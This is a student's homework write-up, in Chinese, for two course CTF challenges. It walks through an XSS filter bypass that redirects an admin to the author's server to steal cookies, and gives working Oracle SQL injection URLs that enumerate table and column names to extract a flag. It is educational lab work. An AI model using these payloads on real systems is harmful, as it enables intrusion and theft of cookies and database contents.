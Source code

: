 # Computer Security Homework 0x04

Real name: 涂世昱

Nick name: R07922115

Student ID: R07922115

## how2xss

### Introduction

這題目的是在於利用一個有xss漏洞的網頁, 竊取遠端的管理員的cookie。而此xss漏洞是在於它會把使用者輸入的東西當作html來執行, 使用者就可以輸入一個javascript的程式碼讓瀏覽器來執行, 但因為在後端有設waf, 使它會把使用者輸入的東西取其中的unique element, 如此一來就會限制xss injection的複雜度。總而言之, 我們必須想辦法把一段url傳到report to admin的地方, 讓admin去拜訪這網頁然後將他的cookie送到我可以取得到的地方。

### ``<svg OnLoAd=alert(1)>``

進入題目的網頁, 先隨意進入Hack me頁面, 可輕易發現它會把輸入的東西取其中的unique element再印出來, 看了其中的page source, 發現印出來的東西有出現在html當中, 於是就先嘗試有沒有辦法對這部份試試看能不能夠湊出``alert(1)``的payload。於是就湊出了``<svg OnLoAd=alert(1)>``, 它確實會使網頁跳出``1``。但我們最終還是要進行跟把cookie傳出去的動作有關的事情, 可能就會用到``document.cookie``, 這邊隨隨便便就用掉三個``o``, 又可能又要用到``document.location``之類的function就不太可能湊的出來。勢必還是要用其他方式。

### ``<iframe SRc=/\zxuU.Ml>`` 

因為同學的提示, 找到了一個類似題目的writeup (https://medium.com/@renwa/security-fest-2019-ctf-entropian-web-write-up-f81fb11f675b), 他們的題目有著類似的waf, 而他們的作法是將真正把cookie送出去的payload是在他們自己架的html server, 所以在hack me頁面當中我們要想辦法redirect到一個我們自己架的server, 其domain name還要可以符合waf的限制, 在這server當中的html還要可以把hack me頁面當中的cookie取出來再存到file當中。

### cookie reciever script on my server

我將我實驗室的電腦設一個domain name(zxuu.ml), 將index.html, getcookie.php放在``/var/www/html/``的資料夾當中, 其中index.html的用處就是用``window.location``設為原本題目``hackme.php``的網頁, 將``window.name``設為我的``getcookie.php``的網址, 用``eval(name)``的方式將cookie送到我的server, 然後在server的``/var/log/apache2/access.log``當中就可以找到cookie。大致情形如下圖。

![](/home/jason/Pictures/Screenshot_20191114_203830.png)

![](/home/jason/Pictures/Screenshot_20191114_203926.png)

## Cathub v2

### Introduction

這題目的在於利用sql injection, 竊取資料庫上的資料。點選某個影片, 會發現``vid``變數, 然後如果在url欄位當中最後加個引號會跑出error, 就知道它可能會是個sql injection的漏洞。

### Walkthrough

經過多方嘗試之後, 且在聊天室有發現題目的database似乎是用oracle, 確實, 我如果塞``union select 1,banner,null from v$version where rownum=1``會出現database的version為``Oracle Database 12c Standard Edition Release 12.1.0.2.0 - 64bit Production``, 其中payload當中要把空白改成``/**/``, 也嘗試過許多payload, 似乎就是要在第二個欄位顯示出來即可。在oracle官方文件(https://docs.oracle.com/cd/B19306_01/gateways.102/b16222/a_ddview.htm#g21953)可以找到不同的dictionary items的名稱(像是user_tables, all_tables, ...), 以及其對應的column name, 然後在(http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)找到可以取得到在dictionary當中第n個row的payload, 如下

``https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,column_name,null/**/from/**/(SELECT/**/ROWNUM/**/r,column_name/**/FROM/**/all_tab_columns/**/ORDER/**/BY/**/column_name)/**/where/**/r=2``

於是就可以用python requests把所有的columns列舉出來把它output到file當中去尋找有沒有我要找的flag, 於是就找到一個奇怪的column name, ``V3RY_S3CRET_C0LUMN``, 並且得到``r=361``, 如下圖

<img src="/home/jason/Pictures/Screenshot_20191114_221428.png" style="zoom:50%;" />

將``column_name``改成``table_name``, 就可以取得到該``V3RY_S3CRET_C0LUMN``是屬於哪個table, 也就是以下的payload

``https://edu-ctf.csie.org:10159/video.php?vid=-1/**/union/**/select/**/1,table_name,null/**/from/**/(SELECT/**/ROWNUM/**/r,table_name/**/FROM/**/all_tab_columns/**/ORDER/**/BY/**/table_name)/**/where/**/r=361``

即可得到``V3RY_S3CRET_C0LUMN``所屬的table即為``S3CRET``, 於是就再``union select V3RY_S3CRET_C0LUMN from S3CRET``就可得到flag了。
